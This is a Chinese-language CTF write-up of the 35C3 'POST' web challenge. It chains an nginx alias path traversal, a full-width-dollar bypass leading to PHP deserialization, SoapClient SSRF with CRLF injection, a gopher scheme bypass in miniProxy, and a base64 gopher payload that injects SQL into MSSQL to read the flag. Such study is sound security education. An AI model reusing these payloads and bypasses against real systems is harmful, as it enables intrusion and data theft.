



## 35c3 POST 复现

最近有点忙，所以拖了这么久才来复现这个题目，题目官方已经给了wp和docker环境,[https://github.com/eboda/35c3/](https://github.com/eboda/35c3/)可以本地搭建一下。

题目的描述如下：

```
Go make some posts http://35.207.83.242/
Hint: flag is in db
Hint2: the lovely XSS is part of the beautiful design and insignificant for the challenge
Hint3: You probably want to get the source code, luckily for you it's rather hard to configure nginx correctly.
```
### 0x1 nginx配置问题，导致文件文件读取

```
http http://127.0.0.1:8000/uploads../
```
可以列取web目录，发现有个`default.backup`,是nginx的配置文件，发现开了两个web服务，一个在80端口，一个在8080端口的只允许本地访问。

```
server {
    listen 80;
    access_log  /var/log/nginx/example.log;

    server_name localhost;

    root /var/www/html;

    location /uploads {
        autoindex on;
        alias /var/www/uploads/;
    }

    location / {
        alias /var/www/html/;
        index index.php;

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.2-fpm.sock;
        }
    }

    location /inc/ {
        deny all;
    }
}

server {
    listen 127.0.0.1:8080;
    access_log /var/log/nginx/proxy.log;

    if ( $request_method !~ ^(GET)$ ) {
        return 405;
    }
    root /var/www/miniProxy;
    location / {
        index index.php;

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.2-fpm.sock;
        }
    }
}
```

下载下来所有的代码，进行审计

### 0x2 post服务的任意类伪造


先下载下来 `html` 目录post服务的代码，发现基本功能如下：

1. 创建post的功能：

```php
#filename:default.php 

if (isset($_POST["title"])) {
        $attachments = array();
        if (isset($_FILES["attach"]) && is_array($_FILES["attach"])) {
            
            $folder = sha1(random_bytes(10));
            mkdir("../uploads/$folder");
            for ($i = 0; $i < count($_FILES["attach"]["tmp_name"]); $i++) {
                if ($_FILES["attach"]["error"][$i] !== 0) continue;
                $name = basename($_FILES["attach"]["name"][$i]);
                move_uploaded_file($_FILES["attach"]["tmp_name"][$i], "../uploads/$folder/$name");
                $attachments[] = new Attachment("/uploads/$folder/$name");
            }
        }
        $post = new Post($_POST["title"], $_POST["content"], $attachments);
        $post->save();
    }
```
2. 显示post的功能

```php
#filename:default.php 

    $posts = Post::loadall();
    if (empty($posts)) {
        echo "<b>You do not have any posts. Create <a href=\"/?action=create\">some</a>!</b>";
    } else {
        echo "<b>You have " . count($posts) ." posts. Create <a href=\"/?action=create\">some</a> more if you want! Or <a href=\"/?action=restart\">restart your blog</a>.</b>";
    }

    foreach($posts as $p) {
        echo $p;
        echo "<br><br>";
    }
```

与这个功能相关两个类，`Post`和`Attachment`类的代码如下：

```php 

#filename:post.php
class Attachment {
    private $url = NULL;
    private $za = NULL;
    private $mime = NULL;

    public function __construct($url) {
        $this->url = $url;
        $this->mime = (new finfo)->file("../".$url);
        if (substr($this->mime, 0, 11) == "Zip archive") {
            $this->mime = "Zip archive";
            $this->za = new ZipArchive;
        }
    }

    public function __toString() {
        $str = "<a href='{$this->url}'>".basename($this->url)."</a> ($this->mime ";
        if (!is_null($this->za)) {
            $this->za->open("../".$this->url);
            $str .= "with ".$this->za->numFiles . " Files.";
        }
        return $str. ")";
    }

}

class Post {
    private $title = NULL;
    private $content = NULL;
    private $attachment = NULL;
    private $ref = NULL;
    private $id = NULL;


    public function __construct($title, $content, $attachments="") {
        $this->title = $title;
        $this->content = $content;
        $this->attachment = $attachments;
    }

    public function save() {
        global $USER;
        if (is_null($this->id)) {
            DB::insert("INSERT INTO posts (userid, title, content, attachment) VALUES (?,?,?,?)", 
                array($USER->uid, $this->title, $this->content, $this->attachment));
        } else {
            DB::query("UPDATE posts SET title = ?, content = ?, attachment = ? WHERE userid = ? AND id = ?",
                array($this->title, $this->content, $this->attachment, $USER->uid, $this->id));
        }
    }

    public static function truncate() {
        global $USER;
        DB::query("DELETE FROM posts WHERE userid = ?", array($USER->uid));
    }

    public static function load($id) {
        global $USER;
        $res = DB::query("SELECT * FROM posts WHERE userid = ? AND id = ?",
            array($USER->uid, $id));
        if (!$res) die("db error");
        $res = $res[0];
        $post = new Post($res["title"], $res["content"], $res["attachment"]);
        $post->id = $id;
        return $post;
    }

    public static function loadall() {
        global $USER;
        $result = array();
        $posts = DB::query("SELECT id FROM posts WHERE userid = ? ORDER BY id DESC", array($USER->uid)) ;
        if (!$posts) return $result;
        foreach ($posts as $p) {
            $result[] = Post::load($p["id"]);
        }
        return $result;
    }

    public function __toString() {
        $str = "<h2>{$this->title}</h2>";
        $str .= $this->content;
        $str .= "<hr>Attachments:<br><il>";
        foreach ($this->attachment as $attach) {
            $str .= "<li>$attach</li>";
        }
        $str .= "</il>";
        return $str;
    }
}

```
#### 0x2.1 数据存入数据库的过程

着重看一下Post类的save操作：
```php
#filename:post.php

public function save() {
    global $USER;
    if (is_null($this->id)) {
        DB::insert("INSERT INTO posts (userid, title, content, attachment) VALUES (?,?,?,?)", 
            array($USER->uid, $this->title, $this->content, $this->attachment));
    } else {
        DB::query("UPDATE posts SET title = ?, content = ?, attachment = ? WHERE userid = ? AND id = ?",
            array($this->title, $this->content, $this->attachment, $USER->uid, $this->id));
    }
}
```
这里需要注意的是 `$this->attachment` 是一个包含`Attachment`类实例的数组，这个类数组在写数据库的时候是怎么处理的？
继续跟踪DB类的insert和query操作：

```php
#filename:db.php

    public static function query($sql, $values=array()) {
        if (!is_array($values)) $values = array($values);
        if (!DB::$init) DB::initialize();
        $res = sqlsrv_query(DB::$con, $sql, $values);
        if ($res === false) DB::error();

        return DB::retrieve_values($res);
    }

    public static function insert($sql, $values=array()) {
        if (!is_array($values)) $values = array($values);
        if (!DB::$init) DB::initialize();

        $values = DB::prepare_params($values);

        $x = sqlsrv_query(DB::$con, $sql, $values);
        if (!$x) throw new Exception;
    }
```
看到 `insert` 函数里调用了 `prepare_params`,看一下代码：

```php
#filename:db.php

private static function prepare_params($params) {
    return array_map(function($x){
        if (is_object($x) or is_array($x)) {
            return '$serializedobject$' . serialize($x);
        }

        if (preg_match('/^\$serializedobject\$/i', $x)) {
            die("invalid data");
            return "";
        }

        return $x;
    }, $params);
}
```

看到这里就明白了，插入数据库之前，对object数据或者array数据进行了一次序列化，并在前面加上了字符串`$serializedobject$`作为标志。

但是DB类的`query`函数中并没有调用`prepare_params`函数，所以我曾一度认为漏洞点在这里

```php
#filename: post.php

} else {
    DB::query("UPDATE posts SET title = ?, content = ?, attachment = ? WHERE userid = ? AND id = ?",
        array($this->title, $this->content, $this->attachment, $USER->uid, $this->id));
}
```
现在看来难道是出题人这里写错了，不过好像永远不会执行到这里？

#### 0x2.2 数据读出数据库的过程

看第2个功能，显示post的功能，`Post`的`loadall`函数:

```php
#filename:post.php
    public static function load($id) {
        global $USER;
        $res = DB::query("SELECT * FROM posts WHERE userid = ? AND id = ?",
            array($USER->uid, $id));
        if (!$res) die("db error");
        $res = $res[0];
        $post = new Post($res["title"], $res["content"], $res["attachment"]);
        $post->id = $id;
        return $post;
    }

    public static function loadall() {
        global $USER;
        $result = array();
        $posts = DB::query("SELECT id FROM posts WHERE userid = ? ORDER BY id DESC", array($USER->uid)) ;
        if (!$posts) return $result;
        foreach ($posts as $p) {
            $result[] = Post::load($p["id"]);
        }
        return $result;
    }

```

`load`函数调用了`DB::query`函数，`DB::query`函数会调用`retrieve_values`进行反序列化:

```php
#filename:db.php 

private static function retrieve_values($res) {
    $result = array();
    while ($row = sqlsrv_fetch_array($res)) {
        $result[] = array_map(function($x){
            return preg_match('/^\$serializedobject\$/i', $x) ?
                unserialize(substr($x, 18)) : $x;
        }, $row);
    }
    return $result;
}

```
可以看到，这里把从数据库中取出的**所有字段**中查找`$serializedobject$`标志，如果找到了就把标志后面的部分进行反序列化。这里关键词是`所有字段`,如果我们可以伪造以`$serializedobject$`开头的字符串，存入数据库中，就可以造成任意类伪造了。

但是在数据存入数据库之前会检查数据中是否有`$serializedobject$`,如果有就不允许写入数据库:

```php
#filename:db.php

private static function prepare_params($params) {
    return array_map(function($x){
        if (is_object($x) or is_array($x)) {
            return '$serializedobject$' . serialize($x);
        }

        if (preg_match('/^\$serializedobject\$/i', $x)) { 
            die("invalid data");
            return "";
        }

        return $x;
    }, $params);
}
```

看了官方的WP，才知道这里有个小trick:

> Luckily, MSSQL automatically converts full-width unicode characters to their ASCII representation. For example, if a string contains `0xEF 0xBC 0x84`, it will be stored as `$`.

这里说的`0xEF 0xBC 0x84`其实说的UTF-8编码,对应的二进制是`1110 1111 1011 1100 1000 0100`,根据unicode和utf8的转换规则，这里表示的unicode字符应该是`1111 1111 0000 0100`,即`0xFF04`,查一下unicode表，表示的字符是`＄`,是`$`的全角字符。

mssql会把这种全角字符转化为对应的ascii码，所以`0xFF21~0xFF5A`这个范围内的字符都是可以被转换的，可以利用这个trick绕过这个检查。


其实这种数据库关于字符的trick，在mysql中也不少，例如：

```sql
select username from table where username='admin%2c'; 
select username from table where username='Àdmin'; 

-- 这两个sql语句都可能查出admin的记录，但是原理不一样，可以自己去看p师傅的博客或者小密圈。
𝍠 𝍡  𝍣 𝍥  -- 这几个字符会引起截断
```

所以插入post的时候，在content字段伪造`$serializedobject＄序列化的数据`,在显示post的时候就会成功的反序列化出任意类。

### 0x3 反序列化触发SSRF

可以进行任意类伪造了，但是伪造什么类呢，根据`/miniProxy`目录里面的代码，很容易想到需要伪造SoapClient,进行SSRP的，接下来就是找怎么触发SoapClient来发请求了。

看展示post的代码：
```php
#filename:default.php
foreach($posts as $p) {
    echo $p;
    echo "<br><br>";
}
```
这里的`$p`是`Post`类的示例，所以会调用`Post`类的`__toString`函数：

```php
#filename:post.php
public function __toString() {
    $str = "<h2>{$this->title}</h2>";
    $str .= $this->content;
    $str .= "<hr>Attachments:<br><il>";
    foreach ($this->attachment as $attach) {
        $str .= "<li>$attach</li>";
    }
    $str .= "</il>";
    return $str;
}
```
在这里展示`$this->attachment`的时候，又会调用`Attachment`的`__toString`函数：

```php
#filename:post.php

public function __toString() {
    $str = "<a href='{$this->url}'>".basename($this->url)."</a> ($this->mime ";
    if (!is_null($this->za)) {
        $this->za->open("../".$this->url);
        $str .= "with ".$this->za->numFiles . " Files.";
    }
    return $str. ")";
}
```

注意这里的`$this->za->open()`操作，如果我们伪造`$this->za`为`SoapClient`类的实例，在这里调用`open`函数的时候，就会触发`SoapClient`的`__call`函数，发送一次请求。

所以利用思路是，伪造`content`为`Attachment`实例，其中的`$this->za`是一个`SoapClient`实例,那么在展示`content`的时候就会触发`Attachment`的`__toString`操作，从而触发`SoapClient`的`__call`函数。

poc如下：

```php

class Attachment {
    private $url = NULL;
    private $za = NULL;
    private $mime = NULL;

    public function __construct() {
        $this->url = "test";
        $this->mime = "test"
            $this->za = new SoapClient(null,array('location' => "http://127.0.0.1:9999",
            'uri'=> "http://test-uri/"));
        }
}

$attachment = new Attachment();
echo '$serializedobject＄'.serialize($attachment);
```



看到发送的请求，如下:




### 0x4 利用miniProxy

看miniProxy的nginx配置文件:

```
server {
    listen 127.0.0.1:8080;
    access_log /var/log/nginx/proxy.log;

    if ( $request_method !~ ^(GET)$ ) {
        return 405;
    }
    root /var/www/miniProxy;
    location / {
        index index.php;

        location ~ \.php$ {
            include snippets/fastcgi-php.conf;
            fastcgi_pass unix:/run/php/php7.2-fpm.sock;
        }
    }
}
```
miniProxy只接受GET请求，但是Soapclient发送的请求，默认是POST的，这个其实很好绕过，在这篇文章[http://wonderkun.cc/index.html/?p=691](http://wonderkun.cc/index.html/?p=691)中我就讲过这个利用SoapClient类的CRLF漏洞,发起长连接的技巧,这里刚好用上了。

下面主要看一下怎么利用miniProxy了,审计一下miniProxy的代码

看下面这一段:

```php
if (isset($_POST["miniProxyFormAction"])) {
  $url = $_POST["miniProxyFormAction"];
  unset($_POST["miniProxyFormAction"]);
} else {
  $queryParams = Array();
  parse_str($_SERVER["QUERY_STRING"], $queryParams);
  //If the miniProxyFormAction field appears in the query string, make $url start with its value, and rebuild the the query string without it.
  if (isset($queryParams["miniProxyFormAction"])) {
    $formAction = $queryParams["miniProxyFormAction"];
    unset($queryParams["miniProxyFormAction"]);
    $url = $formAction . "?" . http_build_query($queryParams);
  } else {
    $url = substr($_SERVER["REQUEST_URI"], strlen($_SERVER["SCRIPT_NAME"]) + 1);
  }
}
```

可以看到在只能对miniProxy发GET请求的情况下的`$url`有两种来源方式:

```php
1. $url = $formAction . "?" . http_build_query($queryParams);
2. $url = substr($_SERVER["REQUEST_URI"], strlen($_SERVER["SCRIPT_NAME"]) + 1);
```

下面对`$url`进行了一些检查，只允许http和https协议

```php
} else if (strpos($url, ":/") !== strpos($url, "://")) {
    //Work around the fact that some web servers (e.g. IIS 8.5) change double slashes appearing in the URL to a single slash.
    //See https://github.com/joshdick/miniProxy/pull/14
    $pos = strpos($url, ":/");
    $url = substr_replace($url, "://", $pos, strlen(":/"));
}
$scheme = parse_url($url, PHP_URL_SCHEME);
if (empty($scheme)) {
  //Assume that any supplied URLs starting with // are HTTP URLs.
  if (strpos($url, "//") === 0) {
    $url = "http:" . $url;
  }
} else if (!preg_match("/^https?$/i", $scheme)) {
    die('Error: Detected a "' . $scheme . '" URL. miniProxy exclusively supports http[s] URLs.');
}
```
这个代码明显少处理一种情况,就是当`$scheme`为空，并且`$url`不是以`//`开头的情况。明显写代码的人认为这种情况的`$url`一定是错误的，后面调用libcurl访问这样的url一定是发送不出去请求的。

那有没有这样的url,是libcurl可以发送出请求的，并且经过`parse_url`处理返回的`$scheme`还是空的呢？
当然是有的，在这个题目[https://github.com/wonderkun/CTF_web/blob/master/php4fun/challenge9.php](https://github.com/wonderkun/CTF_web/blob/master/php4fun/challenge9.php?1547104810063)中我们就遇到过。

```
php > var_dump(parse_url("http:///www.baidu.com"));
bool(false)
```
所以可以利用`/miniProxy.php?gopher:///`来绕过协议的限制，向mssql发送数据。

### 0x5 利用gopher协议打mssql

最后就是利用gopher来打mssql了，因为mssql的通讯协议不想自己抓了，用官方的`exploit.php`。
需要先找到自己的uid:

```php
#filename:bootstrap.php

} else if (isset($_SESSION["username"])) {
    $USER = new User($_SESSION["username"], $_SESSION["password"]);
    if (isset($_SERVER["HTTP_DEBUG"])) var_dump($USER);
}

```
添加一个`DEBUG`头，就看到自己的uid了。



然后构造payload:

```php
php exploit.php  "insert into posts(userid,title,content,attachment) values (1,\"test\",(select flag
from flag.flag),\"test\");"

JHNlcmlhbGl6ZWRvYmplY3TvvIRPOjEwOiJBdHRhY2htZW50IjoxOntzOjI6InphIjtPOjEwOiJTb2FwQ2xpZW50IjozOntzOjM6InVyaSI7czozNToiaHR0cDovL2x
vY2FsaG9zdDo4MDgwL21pbmlQcm94eS5waHAiO3M6ODoibG9jYXRpb24iO3M6MzU6Imh0dHA6Ly9sb2NhbGhvc3Q6ODA4MC9taW5pUHJveHkucGhwIjtzOjExOiJfdX
Nlcl9hZ2VudCI7czoxMzQ5OiJBQUFBQUhhaGEKCkdFVCAvbWluaVByb3h5LnBocD9nb3BoZXI6Ly8vZGI6MTQzMy9BJTEyJTAxJTAwJTJGJTAwJTAwJTAxJTAwJTAwJ
TAwJTFBJTAwJTA2JTAxJTAwJTIwJTAwJTAxJTAyJTAwJTIxJTAwJTAxJTAzJTAwJTIyJTAwJTA0JTA0JTAwJTI2JTAwJTAxJUZGJTAwJTAwJTAwJTAxJTAwJTAxJTAy
JTAwJTAwJTAwJTAwJTAwJTAwJTEwJTAxJTAwJURFJTAwJTAwJTAxJTAwJUQ2JTAwJTAwJTAwJTA0JTAwJTAwdCUwMCUxMCUwMCUwMCUwMCUwMCUwMCUwMFQwJTAwJTA
wJTAwJTAwJTAwJTAwJUUwJTAwJTAwJTA4JUM0JUZGJUZGJUZGJTA5JTA0JTAwJTAwJTVFJTAwJTA3JTAwbCUwMCUwQSUwMCU4MCUwMCUwOCUwMCU5MCUwMCUwQSUwMC
VBNCUwMCUwOSUwMCVCNiUwMCUwMCUwMCVCNiUwMCUwNyUwMCVDNCUwMCUwMCUwMCVDNCUwMCUwOSUwMCUwMSUwMiUwMyUwNCUwNSUwNiVENiUwMCUwMCUwMCVENiUwM
CUwMCUwMCVENiUwMCUwMCUwMCUwMCUwMCUwMCUwMGElMDB3JTAwZSUwMHMlMDBvJTAwbSUwMGUlMDBjJTAwaCUwMGElMDBsJTAwbCUwMGUlMDBuJTAwZyUwMGUlMDBy
JTAwJUMxJUE1UyVBNVMlQTUlODMlQTUlQjMlQTUlODIlQTUlQjYlQTUlQjclQTVuJTAwbyUwMGQlMDBlJTAwLSUwMG0lMDBzJTAwcyUwMHElMDBsJTAwbCUwMG8lMDB
jJTAwYSUwMGwlMDBoJTAwbyUwMHMlMDB0JTAwVCUwMGUlMDBkJTAwaSUwMG8lMDB1JTAwcyUwMGMlMDBoJTAwYSUwMGwlMDBsJTAwZSUwMG4lMDBnJTAwZSUwMCUwMS
UwMSUwMCVGQyUwMCUwMCUwMSUwMCUxNiUwMCUwMCUwMCUxMiUwMCUwMCUwMCUwMiUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMCUwMSUwMCUwMCUwMGklMDBuJTAwc
yUwMGUlMDByJTAwdCUwMCUyMCUwMGklMDBuJTAwdCUwMG8lMDAlMjAlMDBwJTAwbyUwMHMlMDB0JTAwcyUwMCUyOCUwMHUlMDBzJTAwZSUwMHIlMDBpJTAwZCUwMCUy
QyUwMHQlMDBpJTAwdCUwMGwlMDBlJTAwJTJDJTAwYyUwMG8lMDBuJTAwdCUwMGUlMDBuJTAwdCUwMCUyQyUwMGElMDB0JTAwdCUwMGElMDBjJTAwaCUwMG0lMDBlJTA
wbiUwMHQlMDAlMjklMDAlMjAlMDB2JTAwYSUwMGwlMDB1JTAwZSUwMHMlMDAlMjAlMDAlMjglMDAxJTAwJTJDJTAwJTIyJTAwdCUwMGUlMDBzJTAwdCUwMCUyMiUwMC
UyQyUwMCUyOCUwMHMlMDBlJTAwbCUwMGUlMDBjJTAwdCUwMCUyMCUwMGYlMDBsJTAwYSUwMGclMDAlMjAlMDBmJTAwciUwMG8lMDBtJTAwJTIwJTAwZiUwMGwlMDBhJ
TAwZyUwMC4lMDBmJTAwbCUwMGElMDBnJTAwJTI5JTAwJTJDJTAwJTIyJTAwdCUwMGUlMDBzJTAwdCUwMCUyMiUwMCUyOSUwMCUzQiUwMCUzQiUwMC0lMDAtJTAwJTIw
JTAwLSUwMCBIVFRQLzEuMQpIb3N0OiBsb2NhbGhvc3QKCiI7fX0=
```

用python发送这个base64解码之后的content,就可以打到flag了。


去年34c3CTF的时候出SSRF打mysql，35c3CTF的时候出SSRF打sql server 。c3CTF真是太真实了，大胆猜一下，明年打哪个数据库？  

